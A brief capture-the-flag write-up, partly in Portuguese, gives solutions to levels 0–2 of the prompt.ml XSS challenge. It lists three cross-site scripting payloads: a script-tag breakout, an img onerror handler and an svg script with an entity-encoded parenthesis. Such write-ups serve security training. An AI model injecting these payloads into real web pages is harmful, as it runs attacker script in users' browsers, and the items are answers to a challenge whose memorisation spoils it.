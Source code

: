 # Prompt.ml

###### Solved by @Cubano2
> This is a CTF about 

## About the Challenge  
Aqui neste write-up se encontra as respostas do site [prompt.ml](https://prompt.ml/0)  

## Solution  
level 0 ```"><script>prompt(1)</script>```

level 1 ```<img src=1 onerror='prompt(1)'```

level 2 ```<svg><script>prompt&#40;1)</script>```

